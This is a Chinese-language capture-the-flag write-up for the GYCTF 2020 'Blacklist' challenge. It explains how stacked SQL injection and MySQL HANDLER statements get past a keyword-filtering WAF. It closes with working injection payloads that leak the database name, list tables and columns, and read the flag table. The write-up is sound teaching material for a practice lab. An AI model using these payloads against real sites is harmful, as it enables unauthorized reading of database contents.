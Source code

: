 # GYCTF 2020

## Blacklist

> *2021/07/15*

### 题目

这个题考察的是堆叠注入和`handler`的用法，进去是一个简单的界面

![gyctf20201](img/gyctf2020/gyctf20201.png)

输入`1`,`2`,`3`,`1' or '1'='1`分别有不同的返回值

![gyctf20202](img/gyctf2020/gyctf20202.png)

这道题应该是一个**SQL注入的题目**，将返回结果也显示出来，试试联合查询，发现waf

![gyctf20203](img/gyctf2020/gyctf20203.png)

后台对上面的关键字进行了过滤，**常规方法只能爆出数据库名，而不能完整爆出flag**，需要用其他方法，这里采用**堆叠注入**，可以爆出**表，列名**

![gyctf20204](img/gyctf2020/gyctf20204.png)

![gyctf20205](img/gyctf2020/gyctf20205.png)

但是我们无法再继续下去了，因为关键字过滤的太多，导致**预编译**以及**重命名**两种方案都不行，这里采用一种新的方案`handler`

> `HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭
>
> - `handler tablename open // 获取一个tablename的句柄`
> - `handler tablename read first // 查看句柄第一行`
> - `handler tablename read next // 查看下一行`
> - `handler tablename close`

利用上面这种方法，我们可以读取到`flag`

### payload

```
?inject=1'^extractvalue(1,concat('~',database()))%23
// error 1105 : XPATH syntax error: '~supersqli'
?inject=1';show tables;
// return table names
?inject=1';show columns from FlagHere;
// return column names
?inject=1';handler `FlagHere` open;handler `FlagHere` read first;
// return flag
```
